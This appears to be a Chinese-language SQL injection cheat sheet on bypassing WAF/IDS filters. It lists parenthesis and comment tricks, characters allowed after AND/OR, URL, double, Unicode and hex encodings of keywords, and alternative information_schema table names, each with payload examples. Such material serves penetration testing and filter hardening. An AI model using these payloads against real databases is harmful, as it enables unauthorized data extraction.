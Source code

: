 ```text
圆括号也可以用来避免使用空格。
`()`
```

28 \( 29 \)

Example: UNION\(SELECT\(column\)FROM\(table\)\)

```text
#### 在AND/OR后允许的特征
```

20 Space 2B + 2D - 7E ~ 21 ! 40 @

Example: SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~\(\(1\)\)

tips: dual是一个可用于测试的虚拟表。

```text
#### 和注释混淆
可以使用注释分解查询来欺骗`WAF/IDS`并避免检测。 通过使用`＃或-`后跟一个换行符，我们可以将查询拆分成不同的行。
```

Example: 1'\# AND 0-- UNION\# I am a comment! SELECT@tmp:=table\_name x FROM-- `information_schema`.tables LIMIT 1\#

```text
URL编码的注入如下所示：
```

1'%23%0AAND 0--%0AUNION%23 I am a comment!%0ASELECT@tmp:=table\_name x FROM--%0A`information_schema`.tables LIMIT 1%23

```text
某些功能也可以使用注释和空格进行混淆。
```

VERSION/_\*/%A0 \(/_comment\*/\)

```text
#### 编码
编码有时可以用于bypass WAF/IDS。
```

URL Encoding --&gt; SELECT %74able_%6eame FROM information\_schema.tables; Double URL Encoding --&gt; SELECT %2574able_%256eame FROM information_schema.tables; Unicode Encoding --&gt; SELECT %u0074able_%u6eame FROM information_schema.tables; Invalid Hex Encoding \(ASP\) --&gt; SELECT %tab%le_%na%me FROM information\_schema.tables;

```text
#### 避免关键字
如果IDS/WAF阻止了某些关键字，还有其他方法可以在不使用编码的情况下绕过它。
```

INFORMATION\_SCHEMA.TABLES

Example: 空格 information\_schema . tables 反引号 `information_schema`.`tables` 特定的代码 /_!information\_schema.tables_/ 替代名称 information\_schema.partitions information\_schema.statistics information\_schema.key\_column\_usage information\_schema.table\_constraints

tips: 他的替代名称可能取决于表中存在的主键。
